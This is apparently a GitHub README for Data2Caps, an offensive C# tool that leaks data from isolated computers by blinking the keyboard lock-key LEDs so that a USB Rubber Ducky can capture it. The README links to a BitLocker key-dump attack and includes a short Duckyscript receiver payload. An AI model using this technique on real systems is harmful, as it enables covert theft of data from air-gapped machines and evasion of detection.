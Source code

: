 # Data2Caps

----

Data2Caps is a C# project that converts messages or files into a sequence of light intervals of the lock keys of a keyboard. 
This play of lights can be used to exfiltrate those data. This method, also called keystroke reflection, can be used to steal data from isolated systems or to make detection more difficult.
Devices such as Hak5's USB Rubber Ducky Mk II can be used to utilize this form of data exfiltration.

_This method of exfiltration tends to be slow. Exfiltrating large files or messages may take several minutes, up to multiple hours._

References:
  - [Hak5 - Keystroke Reflection](https://shop.hak5.org/pages/keystroke-reflection)
  - [Keystroke Reflection - White Paper](https://cdn.shopify.com/s/files/1/0068/2142/files/hak5-whitepaper-keystroke-reflection.pdf?v=1659317977)
  - [USB Rubber Ducky](https://shop.hak5.org/products/usb-rubber-ducky)
  - [Darren Kitchen](https://x.com/hak5darren)
  - [Dallas Winger](https://x.com/NotKorben)
  - [Example Attack](https://github.com/hak5/usbrubberducky-payloads/tree/master/payloads/library/credentials/BitLockerKeyDump)

----

## Command Line Usage
![Menu](https://github.com/0i41E/Data2Caps/assets/79219148/992f130b-03f7-42fe-9486-11afc8e1bc1e)

## Duckyscript example
This example can be utilized to see the binary in action.
After everything is set up, use the following payload with your Rubber Ducky Mk II.
Wait for the LED to shine in the color red, then execute Data2Caps with the desired message to exfiltrate.
The green led will indicate the success.
Storage will be opened at the end, so the contents of the `loot.bin` file can be checked
```
    DELAY 3000
    SAVE_HOST_KEYBOARD_LOCK_STATE
    $_EXFIL_MODE_ENABLED = TRUE
    $_EXFIL_LEDS_ENABLED = TRUE
    DELAY 500
    LED_R
    WAIT_FOR_SCROLL_CHANGE
    DELAY 250
    LED_G
    DELAY 250
    $_EXFIL_MODE_ENABLED = FALSE
    DELAY 500
    RESTORE_HOST_KEYBOARD_LOCK_STATE
    DELAY 500
    ATTACKMODE STORAGE
```
